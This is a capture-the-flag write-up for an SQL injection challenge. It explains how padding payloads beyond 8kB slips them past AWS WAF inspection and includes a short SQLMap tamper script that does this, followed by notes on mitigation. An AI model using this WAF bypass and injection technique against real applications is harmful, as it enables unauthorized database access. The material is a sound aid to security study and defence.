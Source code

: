 # Asuna Waffles

> I really love blue-berry waffles. I really do. Even Asuna loves it too! There are two users, flag is in one of the columns.\
> \
> http://asuna.nullsession.pw\
> \
> author: Gladiator

Going to the index page, we are told that this is yet another SQL injection challenge ™️

```http
HTTP/1.1 200 OK
Date: Mon, 14 Mar 2022 04:44:43 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 114
Connection: close
Access-Control-Allow-Headers: *
Access-Control-Allow-Methods: POST, GET, OPTIONS, PUT, DELETE
Access-Control-Allow-Origin: *
Access-Control-Expose-Headers: Content-Disposition
X-Request-Id: 3dfaa711-24bc-4755-b720-4b0fbfa16335

You can try using /search to search. Example: /search?q=bob ["SELECT * FROM user WHERE username = '"+username+"'"]
```

However, once we start fuzzing some classic SQLi payloads, we would quickly find that the challenge is not so simple. We are instead greeted with a 403 Forbidden page.

```http
HTTP/1.1 403 Forbidden
Server: awselb/2.0
Date: Mon, 14 Mar 2022 04:45:55 GMT
Content-Type: text/html
Content-Length: 520
Connection: close

<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
</body>
</html>
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
```

One would notice, however, that the `Server` header is now present. We know that the application is put behind an AWS ELB, so we could guess that the AWS WAF is the one blocking our SQLi requests.

### Dangerous Defaults

A quick look at the AWS WAF [documentation](https://docs.aws.amazon.com/waf/latest/developerguide/waf-rule-statement-fields.html) would sound some alarm bells with these red warning boxes:

![](<../../.gitbook/assets/Screenshot 2022-03-14 at 12.48.58 PM.png>)

Wait... this can't be... can it? Surely there must be some other default rule that says that anything longer than 8kB is blocked without even being passed to the WAF... right?

Well, a simple test showed otherwise. Even a trivial payload like `aaa...[8kB]...aaa' or '1` would succeed. We could therefore dump the database using SQLi payloads longer than 8kB!

I was too lazy to do this manually, so I just wrote a simple SQLMap tamper script that prepends 8192 `"a"`s to the payload.

```python
#!/usr/bin/env python
from lib.core.enums import PRIORITY
import re

__priority__ = PRIORITY.NORMAL
def dependencies():
    pass

def tamper(payload, **kwargs):
    return "a" * 8192 + payload
```

Dumping the database with SQLMap then gave the flag :smile:

`CTFSG{A_Cru3l_Summ3r_W1th_SAO_RELEASE_RECOLLECTION}`

### Is There a Mitigation?

Looking at the [managed rule groups changelog](https://docs.aws.amazon.com/waf/latest/developerguide/aws-managed-rule-groups-changelog.html), it seems the `SizeRestrictions_BODY` rule in the Core Rule Set was recently changed to block payloads larger than 8kB instead of 10kB, likely due to [this blog post](https://osamaelnaggar.com/blog/aws\_waf\_dangerous\_defaults/).

If we use the above rule together with SQLi detection, this would be mitigated. But this is not a default rule added out of the box, and a developer would likely not be aware that one has to use it in order to make their WAF effective. :thinking:
